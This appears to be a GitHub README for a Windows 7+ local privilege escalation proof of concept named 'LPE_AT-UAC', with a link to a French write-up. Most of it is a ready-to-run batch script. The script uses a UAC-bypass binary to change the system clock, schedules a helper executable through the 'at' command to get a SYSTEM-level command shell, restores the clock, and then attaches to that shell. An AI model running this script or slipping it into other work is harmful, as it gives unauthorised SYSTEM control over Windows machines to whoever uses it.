 # LPE_AT-UAC
**Windows 7+ Local Privilege Escalation AT - BypassUAC

atuac.bat content :

```shell
@echo off
set BYPASSUACPATH=C:\bypassuac.exe
set REMOTEPATH=C:\remotex64.exe
set tmptime=%TIME%
%BYPASSUACPATH% /c time 13:37:57,44
%BYPASSUACPATH% /c at 13:38 %REMOTEPATH% /s cmd SYSCMD
ping 127.0.0.1 -n 3 > NUL
%BYPASSUACPATH% /c time %tmptime%
%REMOTEPATH% /c %COMPUTERNAME% SYSCMD
```

* Details (in french) :
    * https://www.asafety.fr/vuln-exploit-poc/windows-vista7-escalade-de-privilege-via-at-et-bypass-uac/

